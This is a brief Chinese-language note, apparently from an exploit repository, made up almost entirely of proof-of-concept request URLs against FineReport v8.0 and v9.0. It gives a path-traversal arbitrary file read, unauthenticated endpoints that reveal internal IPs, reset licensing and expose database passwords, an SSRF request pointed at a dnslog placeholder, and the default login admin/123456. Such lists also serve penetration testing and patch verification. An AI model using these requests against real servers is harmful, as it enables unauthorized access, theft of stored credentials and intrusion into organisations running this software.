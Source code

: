 # 任意文件读取漏洞
```
影响
FineReport v8.0
FineReport v9.0

接口
/WebReport/ReportServer

POC
http://www.0-sec.org:8080/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=..&currentUserName=admin&currentUserId=1&isWebReport=true

参考链接
https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/FineReport/FineReport%20任意文件读取漏洞/
```
# 未授权查看访问内网ip
```
POC
/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```
# 未授权重置授权
```
/ReportServer?op=fr_server&cmd=sc_version_info&showtoolbar=false
```
# 查看数据库密码
```
/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```
# SSRF
```
/ReportServer?op=resource&resource=dnslog地址
```
# 默认弱口令
```
/ReportServer?op=fr_auth&cmd=ah_loginui&_=1619795319853

admin / 123456
```

# 参考链接
http://www.hackdig.com/05/hack-341466.htm